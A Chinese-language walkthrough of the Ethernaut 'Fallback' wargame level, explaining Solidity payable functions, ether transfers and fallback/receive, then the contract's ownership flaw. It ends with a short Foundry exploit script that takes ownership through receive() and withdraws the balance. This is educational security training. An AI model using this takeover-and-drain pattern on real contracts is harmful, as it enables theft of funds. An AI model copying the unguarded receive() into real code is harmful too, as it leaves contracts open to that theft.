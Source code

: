 # Level 1 - Fallback
## 題目
[Fallback](https://ethernaut.openzeppelin.com/level/0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB)

### 通關條件
獲得這個合約的所有權，把合約的餘額歸零。
### 提示
- 如何透過與 ABI 互動發送 ether
- 如何在 ABI 之外發送 ether
- 轉換 wei/ether 單位（參見 `help()` 指令）
- fallback 方法
### 合約內容
```solidity=
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```
## 解題
先根據提示提到的問題去做了解
### 如何透過與 ABI 互動發送 ether？
當合約的 function 帶有 `payable` 時，就代表這支函式可以接受 ETH。當想透過 function 轉錢進去時，ETH 須使用 `{}` 存放參數。
假設想向 `exampleContract` 的 `deposit()` 存入 ETH 時，必須要這樣呼叫 function：
```solidity
exampleContract.deposit{value: 1 ether}();
```
帶有`payable`的 function 寫法可以參考：[Solidity by Example - Payable](https://solidity-by-example.org/payable/)
### 如何在 ABI 之外發送 ether
當你不打算透過合約裡的 function 發送 ETH，想直接將 ETH 發送至特定地址時，就需要透過這三個 function 進行轉帳
- transfer: 
    - 用途：安全且簡單，如果失敗會自動回滾交易（將所有狀態回復至這筆交易前的樣子），受限於 2300 gas
    - 範例：`接受地址.transfer(金額)`
- send: 
    - 用途：不會自動回滾交易，需要手動檢查是否成功，受限於 2300 gas
    - 範例：`接受地址.send(金額)`
- call: 
    - 用途：最靈活的選項，可以指定 gas 和其他參數，但需要手動處理失敗情況
    - 範例：`接受地址.call{value: 金額}("")`

對於發送 ETH 的方法和說明可以參考以下幾篇：
- [[中文] WTF Solidity极简入门: 20. 发送ETH](https://github.com/AmazingAng/WTF-Solidity/tree/main/20_SendETH)
- [[EN] Solidity — Part 4- Transfer, Send, and Call](https://shishirsingh66g.medium.com/solidity-part-4-transfer-send-reverse-5baf650acdc1)
- [[EN] Solidity by Example - Sending Ether (transfer, send, call)](https://solidity-by-example.org/sending-ether/)

### 轉換 wei/ether 單位
$1 \text{ ether} = 10^9 \text{ gwei} = 10^{18} \text{ wei}$
Solidity 有內建單位，可以對數字直接換算：
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

contract EtherUnits {
    uint256 public oneWei = 1 wei;
    // 1 wei is equal to 1
    bool public isOneWei = (oneWei == 1);

    uint256 public oneGwei = 1 gwei;
    // 1 gwei is equal to 10^9 wei
    bool public isOneGwei = (oneGwei == 1e9);

    uint256 public oneEther = 1 ether;
    // 1 ether is equal to 10^18 wei
    bool public isOneEther = (oneEther == 1e18);
}
```
### fallback 方法
當有人呼叫合約中不存在的 function 的時候`fallback()`會被觸發，也可以用於收款。
直接向地址轉帳時，地址合約要有`fallback()`或是`receive()`才可以交易成功。

對於收款的流程和實作可以參考以下文章：
- [[中文] WTF Solidity极简入门: 19. 接收ETH receive和fallback](https://github.com/AmazingAng/WTF-Solidity/tree/main/19_Fallback)
- [[EN] Solidity — Part 2- Payable, Fallback, and Receive](https://shishirsingh66g.medium.com/solidity-part-2-payable-fallback-and-receive-42c00cb75108)

---

釐清提示後，這關的目標是成為合約的 owner 和將所有款項提出，開始閱讀關卡的合約。
要提款就是說要合約轉帳給你，所以要從合約中找到 `call{value:}(), transfer(), send()` 其中一個才有可能提款。在合約 30 行的 `withdraw()` 可以找到，這個函式會將合約中的所有資產轉給 owner
```solidity=30
    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }
```
但是呼叫 `withdraw()` 要先處理 `modifier onlyOwner()`
>[!Tip]
> modifier 是 Solidity 中特有的用法，簡單來說就是執行 A 函數前要先呼叫 B 函數的功能
> 詳細說明可以看 [WTF Solidity极简入门: 11. 构造函数和修饰器
](https://github.com/AmazingAng/WTF-Solidity/tree/main/11_Modifier)

`onlyOwner()` 會判斷你是不是 owner，所以還是要先成為 owner 才有辦法提款，尋找可以給 owner 賦值的地方：

22 行雖然可以讓我們變成 owner，但是首先要通過 19 行的每次只能傳入 0.001 ether，又要通過 21 行的總資產大於 owner（第 10 行可以看到 owner 有 1000 ether），太難實現，不考慮這個 function
```solidity=18
    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }
```
34 行的 `receive()` 也有更換 owner 的功能，而且只會判斷轉進去的 ether 大於 0 和發送者的資產大於 0 而已
```solidity=34
    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
```
這樣我們就可以成功取代 owner，開始實作攻擊合約
1. 透過 18 行的 `contribute()` 先轉一點錢進去，讓 35 行的判斷會通過
2. 直接向合約轉帳，觸發 `receive()` ，得到 owner 資格
3. 呼叫 30 行的 `withdraw()` ，順利取得所有資產


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.26;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/01_Fallback.sol";

contract ExploitScript is Script {
    Fallback level1 = Fallback(payable(your_challenge_address));

    function run() public {
        vm.startBroadcast();
        
        level1.contribute{value:0.0001 ether}();
        address(level1).call{value:1 wei}("");
        level1.withdraw();
        
        vm.stopBroadcast();
    }
}
```